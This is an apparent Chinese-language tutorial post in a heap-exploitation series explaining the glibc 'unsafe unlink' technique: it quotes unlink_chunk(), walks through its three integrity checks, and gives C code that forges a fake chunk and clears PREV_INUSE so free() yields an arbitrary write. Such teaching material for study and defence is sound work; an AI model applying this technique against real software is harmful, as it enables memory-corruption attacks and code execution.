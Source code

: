 ```yaml
---
title: "Unsafe Unlink"
date: 2024-12-24
series: ["Heap Exploitation"]
series_order: 10
---
```



|||
|-|-|
|版本|latest|
|效果|使目標ptr從指向UAF chunk改為ptr-0x18|

unlink的目的為把空閒的heap從雙向陣列中拿出來，這幾種狀況會觸發:  

1. malloc()
    - 當在剛好大小符合的 large chunk 中取出 chunk 時
    - 當從比請求大小大的 bin 中取出 chunk 時
2. free(), malloc_consolidate()
    - 合併前後freed chunk
3. relloc()
    - 合併前向freed chunk

## unlink_chunk()

```c
unlink_chunk (mstate av, mchunkptr p)
{
  if (chunksize (p) != prev_size (next_chunk (p)))
    malloc_printerr ("corrupted size vs. prev_size");

  mchunkptr fd = p->fd;
  mchunkptr bk = p->bk;

  if (__builtin_expect (fd->bk != p || bk->fd != p, 0))
    malloc_printerr ("corrupted double-linked list");

  fd->bk = bk;
  bk->fd = fd;
  if (!in_smallbin_range (chunksize_nomask (p)) && p->fd_nextsize != NULL)
    {
      if (p->fd_nextsize->bk_nextsize != p
      || p->bk_nextsize->fd_nextsize != p)
    malloc_printerr ("corrupted double-linked list (not small)");

      if (fd->fd_nextsize == NULL)
    {
      if (p->fd_nextsize == p)
        fd->fd_nextsize = fd->bk_nextsize = fd;
      else
        {
          fd->fd_nextsize = p->fd_nextsize;
          fd->bk_nextsize = p->bk_nextsize;
          p->fd_nextsize->bk_nextsize = fd;
          p->bk_nextsize->fd_nextsize = fd;
        }
    }
      else
    {
      p->fd_nextsize->bk_nextsize = p->bk_nextsize;
      p->bk_nextsize->fd_nextsize = p->fd_nextsize;
    }
    }
}
```

### 目的

unsafe unlink的目標為利用這段unlink_chunk()中的  

```c
fd->bk = bk;
bk->fd = fd;
```

可以達成任意讀寫

### 三個check  

unlink_chunk()中有三段檢查:

1. 檢查p->fd->bk == p &&  p->bk->fd == p

    ```c
    if (__builtin_expect (fd->bk != p || bk->fd != p, 0))
        malloc_printerr ("corrupted double-linked list");
    ```

2. 檢查當前chunksize是否為下一個chunk的prev_size

    ```c
    if (chunksize (p) != prev_size (next_chunk (p)))
        malloc_printerr ("corrupted size vs. prev_size");
    ```

3. 檢查非smallbin的chunk，`fd_nextsize`和`bk_nextsize`的完整性

    ```c
    if (!in_smallbin_range (chunksize_nomask (p)) && p->fd_nextsize != NULL)
        if (p->fd_nextsize->bk_nextsize != p|| p->bk_nextsize->fd_nextsize != p)
            malloc_printerr ("corrupted double-linked list (not small)");
    ```

## 初始化

我們希望這些chunk的大小會被放到unsorted bin，而不是fastbin或tcache

```c
uint64_t *ptr0, *ptr1;
ptr0 = (uint64_t *)malloc(0x410);
ptr1 = (uint64_t *)malloc(0x410);

target = ptr0;

printf("chunk_1: %p chunk_2: %p\n", ptr0, ptr1);
printf("target: %p\n\n", &target);
```

這是最初始chunk的狀態  
![alt text](image-1.png)

## bypass第一個check

現在要做的是，偽造一個fake_chunk在chunk_1 + 0x10  
接著把fake_chunk->fd 設為target - 0x18  
把fake_chunk->bk 設為target - 0x10  

```c
target[2] = (uint64_t)(&target - 0x3);
target[3] = (uint64_t)(&target - 0x2);  
```

![alt text](image-2.png)  
然後可以bypass第一個check，因為`x->bk` 會相等於`x[3]`，`x->fd`會等同於`x[2]`
![alt text](image-3.png)

## bypass第二個和第三個check

```c
/* fake a chunk at chunk_1 + 0x10 */
target[0] = 0x0;     // fake_chunk prev size
target[1] = 0x410;   // fake_chunk size

/* unset "PREV_INUSE", faking chunk_1 as freed */
ptr1[-2] = 0x410;    // chunk_2 prev size
ptr1[-1] = 0x420;    // chunk_2 size (can be done with a bug like a heap overflow)
target[4] = 0x0;     // fd_nextsize
```

![alt text](image-6.png)

## free

成功觸發了unlink，執行`BK->fd = FD`，成功達成目標
![alt text](image-5.png)

- [reference](https://blog.csdn.net/m0_64195960/article/details/125371765)
